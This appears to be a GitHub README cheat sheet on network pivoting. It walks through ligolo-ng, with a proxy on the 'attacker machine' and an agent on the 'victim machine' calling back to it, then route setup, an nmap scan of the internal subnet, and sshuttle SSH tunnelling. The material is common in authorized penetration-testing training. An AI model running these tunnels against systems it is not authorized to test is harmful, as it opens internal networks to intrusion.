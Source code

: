 # Pivoting

# Ligolo-ng
### Download link for ligolo-ng<br/>
Link: https://github.com/nicocha30/ligolo-ng<br/>

### Creating Interface
```
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

### PROXY - server needs to be run on attacker machine 
#### start the server
```sudo ./proxy -laddr 0.0.0.0:<port> -selfcert```

### Agent - agent needs to be run on victim machine
#### connect the agent to server
##### windows agent
```agent.exe -connect <LHOST>:lport -ignore-cert```
##### linux agent
```./agent -connect <LHOST>:lport -ignore-cert```

### List the sessions
```ligolo-ng » session ``` #list session<br/>
```[Agent : client@client-virtual-machine] » ifconfig``` #check different network interfaces that victim connected
```You will receive result something like below
   ┌───────────────────────────────────────────────┐
   │ Interface 4                                   │
   ├──────────────┬────────────────────────────────┤
   │ Name         │ ens37                          │
   │ Hardware MAC │ 00:0c:29:45:60:ff              │
   │ MTU          │ 1500                           │
   │ Flags        │ up|broadcast|multicast|running │
   │ IPv4 Address │ 10.10.10.148/24                │
   │ IPv6 Address │ fe80::f04d:685d:278c:9642/64   │
   └──────────────┴────────────────────────────────┘
```

### Now to pivot to above example network run
```sudo ip route add ip/24 dev ligolo``` #ip here with above example 10.10.10.148/24

### Finally start the tunnel
```[Agent : client@client-virtual-machine] » tunnel_start```

### Now you can access all the machines inside the above example network 10.10.10.148/24
```sudo nmap 10.10.10.0/24```
![image](https://github.com/bhanugoudm041/Pivoting/assets/92798414/a703906f-b7db-4a33-b3fd-0bfed798101e)


# Sshuttle<br/>
### Install sshuttle on kali or attacker machine<br/>
``` sudo apt install sshuttle```
### Start the tunnel<br/>
```sudo sshuttle -r targetuser@targermachineip targetpivotnetwork```  #example: sudo sshuttle -r client@192.168.1.20 10.10.10.0/24<br/>
### Now use curl or wget or browser to access pivoted network services<br/>
curl http://pivotnetworkmachineip:port/   #example: curl http://10.10.10.132:80/<br/>
![image](https://github.com/bhanugoudm041/Pivoting/assets/92798414/2d0da11f-063c-444b-a71c-17c8eec34ca9)
